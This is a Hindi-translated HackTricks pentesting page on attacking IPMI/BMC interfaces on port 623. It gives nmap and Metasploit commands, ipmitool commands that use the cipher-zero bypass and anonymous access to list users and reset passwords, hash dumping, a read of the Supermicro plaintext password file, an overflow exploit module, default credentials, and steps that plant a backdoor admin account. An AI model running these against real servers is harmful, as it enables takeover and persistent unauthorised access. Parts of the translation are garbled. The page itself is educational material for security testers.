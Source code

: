 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

### **IPMI का अवलोकन**

**[इंटेलिजेंट प्लेटफॉर्म मैनेजमेंट इंटरफेस (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** कंप्यूटर सिस्टमों का दूरस्थ प्रबंधन और मॉनिटरिंग के लिए एक मानकीकृत दृष्टिकोण प्रदान करता है, ऑपरेटिंग सिस्टम या बिजली की स्थिति के बिना। यह प्रौद्योगिकी सिस्टम प्रशासकों को सिस्टम का दूरस्थ प्रबंधन करने की अनुमति देती है, जब वे बंद या प्रतिक्रियाशील भी होते हैं, और विशेष रूप से उपयोगी है:

- पूर्व-ओएस बूट कॉन्फ़िगरेशन
- पावर-ऑफ प्रबंधन
- सिस्टम विफलताओं से पुनर्प्राप्ति

IPMI तापमान, वोल्टेज, फैन की गति और पावर सप्लाई की मॉनिटरिंग करने में सक्षम है, साथ ही इन्वेंटरी जानकारी प्रदान करने, हार्डवेयर लॉग की समीक्षा करने और SNMP के माध्यम से अलर्ट भेजने में सक्षम है। इसके संचालन के लिए एक विद्युत स्रोत और एक LAN कनेक्शन आवश्यक हैं।

इंटेल द्वारा 1998 में पेश किए जाने के बाद, IPMI को कई विक्रेताओं द्वारा समर्थित किया गया है, दूरस्थ प्रबंधन क्षमताओं को बढ़ावा देते हुए, विशेष रूप से संस्करण 2.0 के सीरियल ओवर LAN के समर्थन के साथ। मुख्य घटक शामिल हैं:

- **बेसबोर्ड प्रबंधन नियंत्रक (BMC):** IPMI कार्यों के लिए मुख्य माइक्रो-नियंत्रक।
- **संचार बसेस और इंटरफेस:** आंतरिक और बाह्य संचार के लिए, जैसे ICMB, IPMB, और स्थानीय और नेटवर्क कनेक्शन के लिए विभिन्न इंटरफेस।
- **IPMI मेमोरी:** लॉग और डेटा सहेजने के लिए।

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**डिफ़ॉल्ट पोर्ट**: 623/UDP/TCP (यह आम तौर पर UDP पर होता है लेकिन यह TCP पर भी चल सकता है)

## गणना

### खोज
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
आप **पहचान** कर सकते हैं **संस्करण** का उपयोग करके:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI सुरक्षा दोष

IPMI 2.0 के क्षेत्र में, एक महत्वपूर्ण सुरक्षा दोष को दान फार्मर ने खोज निकाला, **साइफर प्रकार 0** के माध्यम से एक दुरुपयोग को उजागर किया गया। यह दोष, जिसे विस्तार से दस्तावेजीकृत किया गया है [दान फार्मर के शोध](http://fish2.com/ipmi/cipherzero.html), किसी भी पासवर्ड के साथ अनधिकृत पहुंच को संभव बनाता है यदि एक मान्य उपयोगकर्ता को लक्षित किया गया है। यह कमजोरी HP, Dell, और Supermicro जैसे निर्माताओं के विभिन्न BMCs पर पाई गई थी, जो सभी IPMI 2.0 कार्यान्वयनों में एक व्यापक समस्या का सुझाव देती है।

### **साइफर 0 के माध्यम से IPMI प्रमाणीकरण बायपास**

इस दोष को पहचानने के लिए, निम्नलिखित Metasploit ऑक्जिलरी स्कैनर का उपयोग किया जा सकता है:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
इस दोष का शोधन `ipmitool` के साथ संभव है, जैसा नीचे प्रदर्शित किया गया है, जिससे उपयोगकर्ता के पासवर्ड की सूचीकरण और संशोधन की अनुमति होती है:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

यह दुरुपयोग किसी भी मौजूदा उपयोक्ता के लिए नमकीन है जिससे नमकीन है नमकीन है (MD5 और SHA1) को पुनः प्राप्त करना। इस दुरुपयोग की परीक्षण के लिए, Metasploit एक मॉड्यूल प्रदान करता है:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI अनाम प्रमाणीकरण**

बहुत से BMCs में डिफ़ॉल्ट कॉन्फ़िगरेशन "अनाम" एक्सेस की अनुमति देता है, जिसमें नल उपयोगकर्ता नाम और पासवर्ड स्ट्रिंग्स शामिल हैं। इस कॉन्फ़िगरेशन का उपयोग `ipmitool` का उपयोग करके नामित उपयोगकर्ता खातों के पासवर्ड रीसेट करने के लिए किया जा सकता है:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **सुपरमाइक्रो IPMI स्पष्ट-पाठ पासवर्ड**

IPMI 2.0 में एक महत्वपूर्ण डिज़ाइन चयन के अनिवार्यता के कारण BMCs में प्रमाणीकरण के लिए स्पष्ट-पाठ पासवर्ड को स्टोर करना आवश्यक है। सुपरमाइक्रो के इन पासवर्ड को स्थानों में स्टोर करना जैसे कि `/nv/PSBlock` या `/nv/PSStore` महत्वपूर्ण सुरक्षा संबंधित चिंताओं को उठाता है:
```bash
cat /nv/PSBlock
```
### **सुपरमाइक्रो आईपीएमआई यूपीएनपी सुरक्षा उत्कृष्टता**

सुपरमाइक्रो के आईपीएमआई फर्मवेयर में यूपीएनपी एसएसडीपी सुनने वाला श्रोत शामिल करना, विशेष रूप से यूडीपी पोर्ट १९०० पर, एक गंभीर सुरक्षा जोखिम लाता है। इंटेल एसडीके के यूपीएनपी डिवाइस संस्करण १.३.१ में कमियों, जैसा कि [रैपिड७ की भेदभाव](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) द्वारा विस्तार से वर्णित किया गया है, बीएमसी के लिए रूट एक्सेस की अनुमति देते हैं:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### ब्रूट फोर्स

**HP अपने Integrated Lights Out (iLO) उत्पाद के लिए** निर्माण के दौरान **डिफ़ॉल्ट पासवर्ड को यादृच्छिक बनाता है**। यह अभ्यास अन्य निर्माताओं के साथ विपरीत है, जो **स्थिर डिफ़ॉल्ट क्रेडेंशियल्स** का उपयोग करने की प्रवृत्ति रखते हैं। विभिन्न उत्पादों के लिए डिफ़ॉल्ट उपयोक्ता नाम और पासवर्ड का सारांश निम्नलिखित रूप में प्रदान किया गया है:

- **HP Integrated Lights Out (iLO)** अपने डिफ़ॉल्ट पासवर्ड के रूप में **फैक्टरी यादृच्छिक 8-वर्णीय स्ट्रिंग** का उपयोग करता है, जो एक उच्च सुरक्षा स्तर का प्रदर्शन करता है।
- **Dell का iDRAC, IBM का IMM**, और **Fujitsu का Integrated Remote Management Controller** जैसे उत्पाद सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जैसे कि "calvin", "PASSW0RD" (जिसमें शून्य है), और "admin"।
- इसी तरह, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, और **ASUS iKVM BMC** भी सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जिनमें "ADMIN", "changeme", और "admin" उनके पासवर्ड के रूप में काम करते हैं।

## BMC के माध्यम से होस्ट तक पहुंचना

बेसबोर्ड प्रबंधन नियंत्रक (BMC) का प्रशासनिक एक्सेस होस्ट के ऑपरेटिंग सिस्टम तक पहुंचने के लिए विभिन्न मार्ग खोलता है। एक सीधा दृष्टिकोण BMC के कीबोर्ड, वीडियो, माउस (KVM) कार्यक्षमता का शोधन करना है। इसे या तो `init=/bin/sh` का उपयोग करके GRUB के माध्यम से होस्ट को रीबूट करके एक रूट शैल में पहुंचा जा सकता है या एक रेस्क्यू डिस्क के रूप में सेट किए गए वर्चुअल सीडी-रॉम से बूट करके। ऐसे तरीके होस्ट के डिस्क का सीधा परिवर्तन करने की अनुमति देते हैं, जिसमें बैकडोर्स का सम्मिलन, डेटा निकासी, या सुरक्षा मूल्यांकन के लिए कोई आवश्यक कार्रवाई शामिल है। हालांकि, इसके लिए होस्ट को रीबूट करने की आवश्यकता है, जो एक महत्वपूर्ण दोष है। बिना रीबूट किए, चल रहे होस्ट तक पहुंचना अधिक जटिल है और होस्ट के कॉन्फ़िगरेशन के साथ भिन्न होता है। यदि होस्ट का भौतिक या सीरियल कंसोल लॉगड इन रहता है, तो इसे आसानी से BMC के KVM या सीरियल-ओवर-लैन (sol) कार्यक्षमताओं के माध्यम से ले लिया जा सकता है `ipmitool` के माध्यम से। साझा हार्डवेयर संसाधनों के शोधन की अन्वेषण करना, जैसे कि i2c बस और सुपर I/O चिप, एक क्षेत्र है जिसे अधिक जांच की मांग करता है।

## होस्ट से BMC में बैकडोर्स डालना

एक BMC से लैंड करने पर, **स्थानीय BMC इंटरफेस का उपयोग करके एक बैकडोर उपयोक्ता खाता डाला जा सकता है**, सर्वर पर स्थायी उपस्थिति बनाते हुए। इस हमले के लिए **`ipmitool`** का मौजूद होना और BMC ड्राइवर समर्थन की सक्रियण की आवश्यकता है। निम्नलिखित कमांड दिखाते हैं कि कैसे होस्ट के स्थानीय इंटरफेस का उपयोग करके एक नया उपयोक्ता खाता BMC में डाला जा सकता है, जो प्रमाणीकरण की आवश्यकता को छोड़ देता है। यह तकनीक विभिन्न ऑपरेटिंग सिस्टमों के लिए लागू है, जिसमें लिनक्स, विंडोज, बीएसडी, और डॉस भी शामिल हैं।
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## संदर्भ

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
